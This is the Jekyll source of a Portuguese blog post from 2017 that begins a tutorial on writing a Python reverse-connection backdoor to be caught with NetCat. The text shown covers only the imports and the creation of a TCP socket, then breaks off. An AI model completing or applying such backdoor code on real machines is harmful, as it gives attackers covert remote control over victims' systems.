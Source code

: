 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDor".

<dt>1.<dt/>vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight ruby %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Vamos definir qual tipo de socket queremos, para este caso vamos usar socket TCP</dt>

{% highlight ruby %}
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

